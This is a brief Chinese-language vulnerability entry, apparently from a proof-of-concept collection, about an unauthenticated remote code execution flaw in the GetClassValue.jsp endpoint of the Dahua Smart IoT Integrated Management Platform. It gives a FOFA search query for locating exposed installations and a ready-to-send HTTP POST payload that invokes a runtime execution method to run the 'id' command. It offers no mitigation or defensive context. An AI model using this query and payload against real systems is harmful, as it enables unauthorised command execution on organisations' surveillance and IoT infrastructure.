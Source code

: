 # 大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞

大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞，攻击者可以不需要授权远程执行命令。

## fofa

```
app="dahua-智能物联综合管理平台"
```

## POC

```
POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
    "data": {
        "clazzName": "com.dahua.admin.util.RuntimeUtil",
        "methodName": "syncexecReturnInputStream",
        "fieldName": ["id"]
    }
}
```